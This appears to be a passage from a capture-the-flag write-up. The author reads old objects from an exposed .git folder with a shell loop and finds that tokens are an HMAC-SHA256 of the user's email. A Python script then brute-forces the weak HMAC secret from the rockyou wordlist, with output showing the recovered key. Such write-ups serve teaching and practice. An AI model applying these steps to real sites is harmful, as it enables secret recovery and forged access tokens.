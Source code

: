There is a `.git` folder, how cool is that :3 
And it contains git objects, we can use them to read
old deleted files, using the command `git cat-file OBJECT`

I used this inline command to go through all objects and read them 
(Thanks to [this writeup](https://www.mrt-prodz.com/blog/view/2014/09/no-con-name-ctf-quals-2014---miscall-100pts-writeup) for the tip)

```bash
for d in *; do for f in $d/*; do git cat-file -p $d$(basename "$f"); done; done
```

Reading through all the files, i finally found what i was looking for:

```ruby
token = OpenSSL::HMAC.hexdigest("SHA256", ENV["SECRET_KEY"], email)
```

I also found this note:

```
- change SECRET_KEY to something stronger
```

So all what is left to do, it to bruteforce the key by hashing it with HMAC_SHA256 using my email and my token that i already know.

I used `rockyou` as wordlist, here is my python script:

```python
import hashlib,hmac
mytoken="MY_TOKEN"
with open("/usr/share/wordlists/rockyou.txt","rb") as f:
  liste = f.readlines()
n=len(liste)
for i in range(len(liste)):
  line=liste[i].strip()
  if hmac.new(line,"MY_EMAIL",digestmod=hashlib.sha256).hexdigest() == mytoken:
    print("FOUND: %s"%line)
    break
  print("Trying %d/%d"%(i,n))

```

Running it gives us the KEY in few seconds:

```bash
.....
.....
Trying 91398/14344391
Trying 91399/14344391
Trying 91400/14344391
Trying 91401/14344391
Trying 91402/14344391
Trying 91403/14344391
Trying 91404/14344391
FOUND: spiderpig1
````
